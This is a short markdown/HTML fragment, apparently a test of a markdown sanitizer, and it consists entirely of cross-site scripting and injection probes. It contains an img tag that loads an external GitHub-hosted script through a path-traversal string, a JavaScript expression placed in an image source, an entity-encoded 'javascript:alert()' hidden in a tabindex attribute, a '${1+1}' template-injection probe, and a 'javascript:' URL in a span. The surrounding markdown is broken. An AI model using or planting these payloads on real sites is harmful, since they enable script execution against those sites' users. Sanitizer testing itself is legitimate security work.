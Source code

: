 ![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img src="!document.getElementById('user-content-meu').src='123';">

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id="${1+1}">bbbb</div>
<span value="javascript:document.getElementById('user-content-meu').src='123';">aaa</span>

](()
